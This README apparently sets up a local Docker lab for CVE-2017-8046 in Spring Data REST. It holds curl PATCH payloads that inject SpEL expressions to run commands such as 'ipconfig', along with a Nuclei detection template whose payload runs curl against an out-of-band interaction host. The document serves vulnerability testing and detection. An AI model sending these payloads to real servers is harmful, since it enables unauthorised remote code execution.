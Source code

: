 # CVE-2017-8046: Spring Data REST < 2.6.9 (Ingalls SR9) / 3.0.1 (Kay SR1) - PATCH Request Remote Code Execution

## Description:

Spring Data REST < 2.6.9 and 3.0.1, Spring Boot < 1.5.9 and 2.0 M6 contain a remote code execution caused by processing malicious PATCH requests with crafted JSON data, letting attackers execute arbitrary Java code, exploit requires sending malicious PATCH requests.

## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2017-8046
- https://spring.io/security/cve-2017-8046

## Vulnerable Setup

- Execute the following commands to start a the vulnerable springboot app:

```
docker compose up --build -d
```

- After the server is started, make the following curl request to create an entity 

`curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8080/entity`

# Exploitation Steps

- Make a PATCH request to the entity URL http://localhost:8080/entity/1 like below:

`curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Thread).sleep(10000).x", "value" : "pwned" }]' "http://localhost:8080/entity/1"`

- This will cause the server to wait 10s before responding

- You can also execute commands like below:

`curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8080/entity/1/"`


# Nuclei Template

```yaml
id: CVE-2017-8046

info:
  name: Spring Data REST < 2.6.9 (Ingalls SR9) / 3.0.1 (Kay SR1) - PATCH Request Remote Code Execution
  author: domwhewell-sage
  severity: critical
  description: |
    Spring Data REST < 2.6.9 and 3.0.1, Spring Boot < 1.5.9 and 2.0 M6 contain a remote code execution caused by processing malicious PATCH requests with crafted JSON data, letting attackers execute arbitrary Java code, exploit requires sending malicious PATCH requests.
  impact: |
    Malicious PATCH requests submitted to servers using Spring Data REST versions prior to 2.6.9 (Ingalls SR9), versions prior to 3.0.1 (Kay SR1) and Spring Boot versions prior to 1.5.9, 2.0 M6 can use specially crafted JSON data to run arbitrary Java code.
  remediation: |
    To remediate this vulnerability, update to Spring Data REST version 2.6.9 or later, or 3.0.1 or later, and Spring Boot version 1.5.9 or later, or 2.0 M6 or later.
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2017-8046
    - https://spring.io/security/cve-2017-8046
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2017-8046
    cwe-id: CWE-20
    cpe: cpe:2.3:a:pivotal_software:spring_data_rest:*:*:*:*:*:*:*:*
  metadata:
    vendor: pivotal_software
    product: spring_data_rest
    shodan-query: http.title:"eureka"
  tags: cve,cve2017,pivotal,springboot,pivotal_software

flow: |
  http(1)
  for(let endpoint_urls of iterate(template.endpoints)){
    set("endpoints", endpoint_urls)
    http(2)
  }

http:
  - method: GET
    path:
      - "{{BaseURL}}"
    
    redirects: true
    max-redirects: 3

    extractors:
      - type: regex
        name: endpoints
        part: body
        group: 1
        internal: true
        regex:
          - '"href"\s*:\s*"([^"{]+)'

  - method: PATCH
    path:
      - "{{endpoints}}/1"
    headers:
      Content-Type: application/json-patch+json
    body: |
      [
        {
          "op": "replace",
          "path": "T(java.lang.Runtime).getRuntime().exec(\"curl {{interactsh-url}}\").x",
          "value": "pwned"
        }
      ]

    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - dns
```

## Nuclei Command:

```bash
nuclei -t CVE-2017-8046.yaml --target http://localhost:8080
```